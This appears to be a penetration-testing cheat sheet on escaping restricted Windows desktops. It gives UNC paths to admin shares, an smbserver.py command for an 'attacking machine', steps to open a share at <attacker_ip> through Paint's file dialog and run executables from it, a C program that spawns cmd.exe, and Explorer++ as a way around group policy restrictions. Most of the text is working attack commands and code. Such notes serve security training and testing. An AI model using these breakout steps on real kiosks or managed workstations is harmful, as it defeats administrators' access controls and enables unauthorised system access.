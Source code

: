 ### UNC Path Technique
```cmd
# UNC paths that work in dialog boxes:
\\127.0.0.1\c$\users\<username>    # Local admin share
\\<ip>\<share>                     # Remote SMB share
\\localhost\c$\                    # Alternative localhost syntax
```

## 🌐 SMB Share Access from Restricted Environment

### Setting up SMB Server
```bash
# On attacking machine (Ubuntu/Kali):
smbserver.py -smb2support share $(pwd)

# Example output:
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
```

### Accessing SMB Share via Dialog Box
```cmd
# Steps:
1. Open Paint > File > Open
2. Enter UNC path: \\<attacker_ip>\share
3. Set File-Type to "All Files"
4. Browse and execute files directly from share

# File execution:
- Right-click on executable
- Select "Open" to run directly
```

### Custom Breakout Binary
```c
// pwn.c - Simple CMD launcher
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}

// Compile and place on SMB share
// Right-click > Open in dialog box = CMD access
```

## 🛠️ Alternate File System Tools

### Explorer++ Bypass
```cmd
# Why Explorer++:
- Portable (no installation required)
- Bypasses group policy folder restrictions  
- Fast and user-friendly interface
- Can copy files where File Explorer cannot

# Usage:
1. Download Explorer++ to SMB share
2. Execute via dialog box or copy to system
3. Use for unrestricted file system access
```

